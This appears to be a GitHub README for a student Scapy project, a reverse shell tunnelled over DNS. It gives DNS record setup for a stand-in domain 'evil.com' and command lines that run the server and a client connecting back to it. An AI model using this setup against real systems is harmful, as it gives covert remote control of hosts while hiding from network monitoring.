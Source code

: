 # Reverse Shell using DNS tunnelling

Written in Scapy for my network security module :)

## Usage

Make sure to run the server first.

### Server

1. Purchase a domain (for example, `evil.com`)
2. Set an `A` record for `*.evil.com` and point to server IP address
3. Set an `A` record for `ns1.evil.com` and point to server IP address
4. Set an `NS` record for `ns1.evil.com` and point to `ns1.evil.com`

```sh
$ ./dns_server.py -h
usage: dns_server.py [-h] [-i INTERFACE] -p IP domain

DNS Reverse Shell Server

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -p IP, --ip IP        Public IP of server

# ./dns_server.py -i eth0 -p $(curl -fsSL ip.info/ip) evil.com
```

Program will now listen on stdin for commands

---

### Client

```sh
$ ./dns_client.py -h
usage: dns_client.py [-h] [-i INTERFACE] [-I INTERVAL] [-p PULSE] [-t TIMEOUT] domain

DNS Reverse Shell Client

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -I INTERVAL, --interval INTERVAL
                        Interval between sending DNS packets
  -p PULSE, --pulse PULSE
                        How often to pulse the server in seconds (Lower number means faster response time)
  -t TIMEOUT, --timeout TIMEOUT
                        How long it takes to recover from lost packet in seconds (Lower number means faster recover time)

# ./dns_client.py -i eth0 evil.com
```

## How it works

I don't know, magic I guess...
